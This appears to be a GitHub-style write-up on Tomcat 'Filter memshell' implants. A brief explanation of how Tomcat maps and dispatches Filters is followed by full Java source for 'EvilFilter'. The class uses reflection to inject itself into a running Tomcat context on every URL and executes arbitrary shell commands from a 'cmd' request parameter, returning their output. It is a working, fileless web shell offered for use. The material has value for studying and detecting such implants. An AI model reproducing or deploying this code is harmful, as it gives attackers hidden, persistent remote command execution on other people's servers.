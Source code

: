 # Filter memshell

## Analysis

The process of the `Tomcat` calling a specific `Filter` according to the request URL:

- Traverse the `filterMaps`, a mapping between the request URL and the `FilterMap` object, and get the corresponding `FilterMap` object. The `FilterMap` class is a mapping between the request URL and the `filterName`.

- Lookup the corresponding `filterConfig`, a `ApplicationFilterConfig` object, in the `filterConfigs` by the `filterName`. Then add it to the `FilterChain`.

- Traverse the `filterConfig` in the `FilterChain`, then call the `getFilter()` method to obtain the corresponding `Filter` and execute the `doFilter()` method.

- The `Filter` is encapsulated as the `FilterDef` object, and the `FilterDef` object is added to `FilterDefs`, when the `Filter` is added dynamically.

To add a `Filter` dynamically, we should:

- Create a `FilterDef` object to encapsulate the `Filter`, then call the `addFilterDef()` method of the `StandardContext` class to add it to `FilterDefs`.

- Create a new `FilterMap` object, and call the `addFilterMapBefore()` method of the `StandardContext` class to add it to `filterMaps`.

- Create a new `ApplicationFilterConfig` object, and call the `put()` of the `filterConfigs`.

Moreover, we must achieve the `doFilter()` method and write malicious code in this method.

## Code

```java
public class EvilFilter extends AbstractTranslet implements Filter {
    static {
        final String name = "Ya0h4cker";
        WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        try {
            Field field = webappClassLoaderBase.getClass().getSuperclass().getDeclaredField("resources");
            field.setAccessible(true);
            WebResourceRoot resources = (WebResourceRoot) field.get(webappClassLoaderBase);
            StandardContext standardContext = (StandardContext) resources.getContext();

            Field configs = standardContext.getClass().getDeclaredField("filterConfigs");
            configs.setAccessible(true);
            Map filterConfigs = (Map) configs.get(standardContext);

            if (filterConfigs.get(name) == null) {
                EvilFilter filter = new EvilFilter();

                FilterDef filterDef = new FilterDef();
                filterDef.setFilter(filter);
                filterDef.setFilterName(name);
                filterDef.setFilterClass(filter.getClass().getName());
                standardContext.addFilterDef(filterDef);

                FilterMap filterMap = new FilterMap();
                filterMap.addURLPattern("/*");
                filterMap.setFilterName(name);
                filterMap.setDispatcher(DispatcherType.REQUEST.name());
                standardContext.addFilterMapBefore(filterMap);

                Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
                constructor.setAccessible(true);
                ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
                filterConfigs.put(name, applicationFilterConfig);

                System.out.println("Inject success");
            }
        } catch (NoSuchFieldException | IllegalAccessException | InvocationTargetException | NoSuchMethodException | InstantiationException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("Evil dofilter");
        if (servletRequest.getParameter("cmd") != null) {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
            return;
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {
    }
}
```

